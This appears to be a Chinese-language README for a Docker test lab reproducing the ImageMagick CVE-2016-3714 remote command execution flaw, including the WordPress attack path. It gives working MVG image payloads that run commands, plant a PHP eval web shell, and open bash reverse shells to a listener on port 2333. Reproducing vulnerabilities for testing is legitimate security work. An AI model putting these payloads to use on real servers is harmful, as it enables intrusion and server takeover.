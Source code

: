 

##wordpress基于ImageMagick 命令执行漏洞（CVE-2016–3714）环境

### 漏洞信息

  ImageMagick 5.30 曝出 CVE-2016-3714，Java、PHP 的库也受其影响。其中 PHP 的库 Imagick 应用广泛，波及也大。Wordpress 也就是受此漏洞影响出现了 RCE.
  Wordpress 在图像处理的时候默认优先选择 Imagick Library
通过对/wp-includes/media.php 代码审计，发现几个函数在调用Imagick类。（_wp_image_editor_choose ，wp_get_image_editor，wp_crop_image ）

###Poc使用

####wordpress下测试

有最小的author权限即可，插入一个正常图片，用firebug获取他的post_id,
图片编辑，原始图片编辑，copy as curl.
传入带有攻击性的图片：
内容：push graphic-context
     viewbox 0 0 640 480
     fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/127.0.0.1/2333 0>&1")'
     pop graphic-context
编辑图片，同上，获取它的_ajax_nonce和post_id
修改正常图片的curl中的_ajax_nonce和post_id 
在主机上测试，会弹出一个shell
## ImageMagick 命令执行漏洞（CVE-2016–3714）环境

### 漏洞信息

   5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。

  ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

### 漏洞相关代码

  ImageMagick 在 `MagickCore/constitute.c` 的 `ReadImage` 函数中解析图片，如果图片地址是 `https://` 开头的，即调用 InvokeDelegate。

`MagickCore/delegate.c`定义了委托，[第 99 行](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L99)定义了要执行的命令。

```
99    "  <delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
```

   最终 `InvokeDelegate` 调用 [`ExternalDelegateCommand` 执行命令] (https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L407)

```
#if !defined(MAGICKCORE_HAVE_EXECVP)
  status=system(sanitize_command);
#else
  if ((asynchronous != MagickFalse) ||
      (strpbrk(sanitize_command,"&;<>|") != (char *) NULL))
    status=system(sanitize_command);
  else
    {
      pid_t
        child_pid;

```

### 镜像信息

本镜像中提供了本地测试 PoC 和 远程测试 PoC

### 获取环境:
1. 环境准备
```
yum -y install docker-io
yum install ImageMagick
yum install ImageMagick
yum install ImageMagick-devel
yum install php-pear
yum -y install php-devel
yum install gcc
pecl install imagick                         （这个之内在php 5.3的版本以上才能安装成功）
echo extension=imagick.so >> /etc/php.ini   （这个是将ImageMagick加载到php中）

 ```
1. 拉取镜像到本地
```
docker pull mysql
docker pull wordpress

 ```
2. 启动环境

 ```
docker run --name mysql_name -e MYSQL_ROOT_PASSWORD=wordpress -d mysql
docker?run?--name?wordpress_name?--  link?mysql:mysql?-d?wordpress 
docker run --name docker_wordpress --link mysql_wordpress :mysql -p 8080:80 -d wordpress

 ```
 > `-p 8080:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC使用

#### 本地测试

在容器中 `/poc.png` 文件内容如下：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

构建时已经集成在容器中，可手动修改第 3 行的命令。

在物理机上直接执行下面命令验证漏洞：

```
$ docker exec i_imagemagick_1 convert /poc.png 1.png
```

或进入 docker容器 shell 中执行：

```
$ convert /poc.png 1.png
```

如果看到 `ls -al` 命令成功执行，则存在漏洞。

#### 远程命令执行测试

远程命令执行无回显，可通过写文件或者反弹 shell 来验证漏洞存在。

1. 写一句话到网站根目录下：

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
pop graphic-context
 ```

2. 反弹 shell:

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
pop graphic-context
 ```
